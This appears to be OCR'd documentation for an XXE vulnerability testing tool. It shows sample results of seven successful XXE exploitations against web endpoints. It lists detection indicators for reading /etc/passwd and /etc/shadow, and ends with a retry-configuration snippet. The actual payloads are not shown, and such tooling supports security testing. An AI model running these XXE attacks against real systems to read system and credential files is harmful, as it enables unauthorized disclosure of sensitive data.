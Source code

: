 ```text
Total Tests: 10
Successful Exploitations: 7
Success Rate: 70.0%

SUCCESSFUL EXPLOITATIONS:
  ✓ Classic DTD XXE on /
  ✓ Parameter Entity XXE on /
  ✓ PHP Wrapper XXE on /
  ✓ Classic DTD XXE on /upload
  ✓ Parameter Entity XXE on /upload
  ✓ Error-Based XXE on /upload
  ✓ PHP Wrapper XXE on /upload
============================================================

[CRITICAL] XXE vulnerability confirmed! Successfully exploited 7 times.
```

### Successful Exploitation Detection

The script automatically detects successful XXE exploitation through:

#### Direct File Content Detection

```text
Found /etc/passwd content indicators:
- root:x:0:0:root:/root:/bin/bash
- daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
- bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

#### Error-Based Information Disclosure

```text
Potential XXE detected via error messages:
- XML parsing error: External entity reference
- java.io.FileNotFoundException: /etc/shadow
- Access denied: Permission denied
```

## Technical Implementation Details

### Professional Architecture

- **Type Safety**: Complete type annotations using `typing` module
- **Data Classes**: Structured payload representation with validation
- **Enumeration Types**: Categorized vulnerability and payload classifications
- **Session Management**: Configured with enterprise retry strategies
- **Logging Framework**: Professional audit trail with structured output

### HTTP Testing Engine

```python
# Enterprise-grade session configuration
retry_strategy = Retry(
    total=max_retries,
    backoff_factor=1,
    status_forcelist=[429, 500, 502, 503, 504],
    allowed_methods=["GET", "POST", "PUT", "DELETE"]
)
```
